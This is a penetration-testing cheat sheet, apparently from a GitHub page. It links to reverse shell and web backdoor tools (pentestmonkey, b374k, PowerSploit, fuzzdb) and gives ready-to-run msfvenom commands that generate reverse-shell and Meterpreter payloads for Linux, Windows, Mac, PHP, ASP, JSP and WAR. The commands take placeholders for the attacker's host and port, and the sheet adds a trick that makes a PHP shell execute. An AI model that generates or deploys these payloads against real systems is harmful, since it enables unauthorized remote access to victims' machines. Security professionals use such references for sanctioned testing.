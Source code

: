 -   Perl Reverse Shell
    [http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

-   PHP powered web browser Shell b374k with file upload etc.
    [https://github.com/b374k/b374k](https://github.com/b374k/b374k)

-   Windows reverse shell - PowerSploit’s Invoke-Shellcode script and inject a Meterpreter shell
    https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1

-   Web Backdoors from Fuzzdb
    https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors

-   Creating Meterpreter Shells with MSFVenom - http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/

      *Linux*

      `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`

      *Windows*

      `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`

      *Mac*

      `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho`

      **Web Payloads**

      *PHP*

      `msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`

      OR

      `msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`

      Then we need to add the <?php at the first line of the file so that it will execute as a PHP webpage:

      `cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

      *ASP*

      `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`

      *JSP*

      `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`

      *WAR*

      `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`
